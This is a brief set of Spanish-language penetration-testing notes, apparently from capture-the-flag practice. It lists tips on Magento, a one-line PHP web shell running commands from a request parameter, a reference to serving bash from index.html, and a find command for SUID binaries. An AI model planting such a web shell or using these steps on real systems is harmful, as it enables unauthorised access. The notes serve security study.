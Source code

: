 Cuando encontramos un logo en grande, buscarlo porque puede tener un exploit.

Para no perder tiempo si ya tenemos un exploit es ir con ese

Con el `print "algo"` sabemos que es python2

"Si tienes un Magento ve por el froghopper" 
```php
<?php
system($_REQUEST('cmd'));
?>
```

bash en index.html

`stty size o stty -a` Para ver las columnas y filas de nuestra terminal

`find \-perm -4000 2>/dev/null`
